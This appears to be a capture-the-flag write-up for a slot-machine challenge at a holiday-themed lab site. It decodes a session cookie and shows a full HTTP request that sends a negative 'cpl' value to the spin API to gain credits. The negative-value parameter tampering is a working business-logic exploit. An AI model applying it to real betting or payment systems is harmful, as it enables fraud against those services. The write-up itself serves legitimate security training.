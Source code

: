 (ch4)=
Slot Machine Hijack
========================

Go to [https://slots.jackfrosttower.com](https://slots.jackfrosttower.com).

Curiously, there is a Cookie really intriguing here, like:

```
XSRF-TOKEN: 
eyJpdiI6Ill3emgrYmUrZWk5K040Mloxd0QvNHc9PSIsInZhbHVlIjoicVN3YlUyaC9CY0JDSjlpWGwzVjRYbjJpWUFoTnlHanJKcmVPWTdXN0hmazBFRmUyQ3hPanYwNkxnSUhWdTNzUkRrVDgxeHZnN2ZtdjVyN0dOaVAzeDVuV00wcXErbXZMYy80WWFEd0NCVFBSblcya3dwb1cvcDZpSkpmRk9rS2YiLCJtYWMiOiI5MDYyZjlmM2FhMTY4MzkxODU0ZjRiZWExYTdhNjA3YmI0ZjQ2Yzk0ZGMwYThkZjk4ODhjNWY5MmYxNjQ0YjE2IiwidGFnIjoiIn0%3D
```
that decoded from base64:
```
{"iv":"Ywzh+be+ei9+N42Z1wD/4w==","value":"qSwbU2h/BcBCJ9iXl3V4Xn2iYAhNyGjrJreOY7W7Hfk0EFe2CxOjv06LgIHVu3sRDkT81xvg7fmv5r7GNiP3x5nWM0qq+mvLc/4YaDwCBTPRnW2kwpoW/p6iJJfFOkKf","mac":"9062f9f3aa168391854f4bea1a7a607bb4f46c94dc0a8df9888c5f92f1644b16","tag":"In0%3D
```
we have a lot of ingredients here, but we found a really easy way to win this challenge just by playing with it. 
<br/>
<br/>
Do you know that you can win a lot of credits just by using a negative value? 

```
POST /api/v1/02b05459-0d09-4881-8811-9a2a7e28fd45/spin HTTP/2
Host: slots.jackfrosttower.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:96.0) Gecko/20100101 Firefox/96.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://slots.jackfrosttower.com/uploads/games/frostyslots-206983/index.html
Content-Type: application/x-www-form-urlencoded
X-Ncash-Token: 8045060e-0cc9-4c7e-bb2e-e8a7c6171a2b
Origin: https://slots.jackfrosttower.com
Content-Length: 31
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

betamount=1&numline=20&cpl=-0.1
```
Done. 


(note: let's go on with the others challenges, the way is still so long and we want to send the full report at the deadline preview !!!) 
